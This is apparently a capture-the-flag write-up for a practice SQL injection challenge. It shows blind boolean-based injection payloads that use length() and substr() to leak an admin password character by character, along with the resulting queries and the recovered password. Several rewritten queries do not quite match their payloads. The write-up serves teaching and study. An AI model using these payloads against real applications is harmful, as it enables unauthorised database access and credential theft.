 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 4
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/3fb3ba7d-5c3a-40cc-8b3a-8dcd16ebe014)

We are provided with the SQL query:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='{$_GET[pw]}'
```

The code also performs two conditional checks:

1. `if($result['id'])`: It checks if the statement is `True`. If yes, it prints the following message: `Hello admin`
2. `if(($result['pw']) && ($result['pw'] == $_GET['pw']))`: It then checks if the `pw` that is provided is correct. If yes, it prints the flag.


In order to print out the flag, we need to first know the password. We have to perform a Blind SQL Injection.

### Blind SQL Injection

First we have to reveal the length of the flag.

If we provide the following URI:

```
?pw=' OR id='admin' AND length(pw)=1 -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR length(pw)=1 -- -'

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR length(pw)=1

## Commented part:
'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/d0e5928c-c2a2-4355-a6a2-af11d1804556)

Since the `Hello admin` message is not printed, we know that the resultant query did not result in `True`.
That tells us that the length of the `pw` column is more than 1.

If we keep increasing the length and provide the following URI:

```
?pw=' OR id='admin' AND length(pw)=8 -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND length(pw)=8 -- -'

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND length(pw)=8

## Commented part:
'
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/9e438378-10e1-4f7a-9353-bdf75700825d)

Since the `Hello admin` message is printed, we know that the resultant query resulted in `True`.
That tells us that the length of the `pw` column is 8.

### Leaking the password

Next, we can leak the password byte by byte using the `substr()` function.

#### `substr()`

![4](https://github.com/Kunull/Write-ups/assets/110326359/e332b358-2371-4f97-a9be-e1e5afce6f68)

If we provide the following URI:

```
?pw=' OR id='admin' AND substr(pw, 1, 1)=0 -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 1, 1)=0 -- -'

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 1, 1)=0 #

## Commented part:
'
```

![5](https://github.com/Kunull/Write-ups/assets/110326359/065bf0e4-ef24-4a09-8482-036850cd9c18)

Since the `Hello admin` message is printed, we know that the resultant query resulted in `True`.
That tells us that the first character of the `pw` for `id=admin` is `0`.

We can now move onto the second character:

```
?pw=' OR id='admin' AND substr(pw, 2, 1)=0 -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 2, 1)=0 -- -'

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 2, 1)=0

## Commented part:
'
```

![6](https://github.com/Kunull/Write-ups/assets/110326359/ca4364db-8e79-4a25-ad50-0b8889822c72)

Since the `Hello admin` message is not printed, we know that the resultant query did not result in `True`.
That tells us that the second character of the `pw` for `id=admin` is not `0`.

We can try other characters moving up to the following:

```
?pw=' OR id='admin' AND substr(pw, 2, 1)=9 -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 2, 1)=9 -- -'

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 2, 1)=9

## Commented part:
'
```

![7](https://github.com/Kunull/Write-ups/assets/110326359/f9133a16-4799-4f4b-bfe3-2105d61d3e72)

Since the `Hello admin` message is printed, we know that the resultant query resulted in `True`.
That tells us that the second character of the `pw` for `id=admin` is `9`.

We can keep repeating this process until we get all the eight characters of the `admin` password:

```
095a9852
```

Now, we can provide password URI:

```
?pw=095a9852' %23
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='095a9852'
```

![8](https://github.com/Kunull/Write-ups/assets/110326359/ef9ae213-af29-4450-8d2e-34d02565e928)
